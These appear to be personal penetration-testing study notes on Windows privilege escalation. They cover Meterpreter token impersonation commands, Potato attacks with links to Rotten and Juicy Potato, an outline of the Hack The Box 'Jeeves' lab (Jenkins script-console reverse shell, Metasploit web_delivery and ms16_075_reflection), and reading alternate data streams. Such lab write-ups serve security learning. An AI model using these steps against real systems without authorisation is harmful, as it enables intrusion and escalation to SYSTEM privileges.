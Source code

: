 
Token Impersonation
	In a meterpreter session you can use the following different commands.
		`load incognito`
		`list_tokens -u`
		`impersonate_token DOMAIN\\user`
			This should impersonate the token you select.
	In meterpreter
		getprivs
	In cmd or shell
		whoami /priv
	You're looking for one of two statuses to be able to pull off a certain attack.
		`SeImpersonate` or `SeAssignPrimaryToken`

Potato Attacks
	Potato attack takes advantage of these privileges.  It negotiates an NT Auth Sys token and uses that to impersonate it with an account that has either of those two privleges.


Rotten Potato - https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/

Juicy Potato - https://github.com/ohpe/juicy-potato

### HTB Jeeves

Nmap
Dirbuster on 50000
Manage Jenkins > script console
reverse shell groovy
enumeration (whoami /priv)
	windows-exploit-suggester.py   (in meterpreter, `run post/multi/recon/local_exploit_suggester`)
Metasploit potato attack
	use exploit/multi/script/web_delivery
	show targets - set to PSH (powershell)
	set payload windows/ meterpreter/reverse_tcp
	use exploit/windows/local/ms16_075_reflection
	set payload for reverse_tcp
		Run token impersonation from the top

Alternate Data Streams

dir /R - will give you more info about the file and show any alternate data streams

`more < ht.txt:root.txt:$DATA`

Alternate Data Streams - https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/